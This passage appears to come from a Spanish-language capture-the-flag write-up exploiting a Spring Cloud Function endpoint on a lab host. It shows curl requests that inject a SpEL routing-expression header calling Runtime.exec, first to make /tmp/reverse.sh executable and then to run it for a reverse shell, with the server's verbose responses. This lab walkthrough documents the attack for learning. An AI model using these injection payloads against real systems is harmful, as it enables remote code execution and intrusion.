 ```bash
>
< HTTP/1.1 500
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 02 Jun 2024 18:58:15 GMT
< Connection: close
<
* Closing connection
{"timestamp":"2024-06-02T18:58:15.168+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

- Ahora le damos permisos de ejecución.

```bash
➜  content curl -X POST http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/reverse.sh")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/8.5.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/reverse.sh")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 500
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 02 Jun 2024 18:59:10 GMT
< Connection: close
<
* Closing connection
{"timestamp":"2024-06-02T18:59:10.711+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

- Y por ultimo lo ejecutamos para obtener `shell`.

```bash
➜  content curl -X POST http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/reverse.sh")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/8.5.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/reverse.sh")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 500
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 02 Jun 2024 19:00:11 GMT
< Connection: close
<
```